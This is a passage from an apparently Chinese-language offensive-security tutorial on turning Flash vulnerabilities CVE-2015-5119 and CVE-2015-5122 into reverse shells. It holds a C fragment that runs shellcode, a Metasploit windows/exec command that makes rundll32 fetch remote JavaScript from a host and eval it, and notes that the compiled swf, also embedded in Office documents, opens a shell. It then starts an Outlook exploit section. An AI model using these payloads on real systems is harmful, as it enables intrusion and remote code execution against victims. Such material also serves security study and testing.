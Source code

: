 ```
        lea eax,buf
        call eax
    }
    return 0;
}

```

运行后可以弹回shell，证明shellcode生成成功

### 3、结合CVE-2015-5119&CVE-2015-5122

**测试环境**

```
Windows 7 SP1 (64-bit) 
ie8.0.7600.16385 
Adobe Flash Player 18,0,0,194

```

**步骤：**

**1、msf**

```
use windows/exec 
set CMD rundll32.exe javascript:\"\\..\\mshtml,RunHTMLApplication \";document.write();h=new%20ActiveXObject(\"WinHttp.WinHttpRequest.5.1\");h.Open(\"GET\",\"http://192.168.174.136/connect\",false);try{h.Send();B=h.ResponseText;eval(B);}catch(e){new%20ActiveXObject(\"WScript.Shell\").Run(\"cmd /c taskkill /f /im rundll32.exe\",0,true);}
generate -t dword

```

如图![Alt text](http://drops.javaweb.org/uploads/images/4f00b3926c7063c1bff903bbc3215de00aecb49d.jpg)

**2、**修改原工程文件 ,使用Adobe Flash CS6 编译生成新的swf

如图新编译的swf使用浏览器打开，弹回shell

![Alt text](http://drops.javaweb.org/uploads/images/42057b540fb659ea335dff9253c10cf0daef074a.jpg)

同样，将swf嵌入word、ppt、xls，均可弹回shell

此处细节略

0x06 结合Outlook漏洞
=====

**细节可参考:**[http://zone.wooyun.org/content/24657](http://zone.wooyun.org/content/24657)

**测试环境**

```
win7 x86 
outlook2007

```
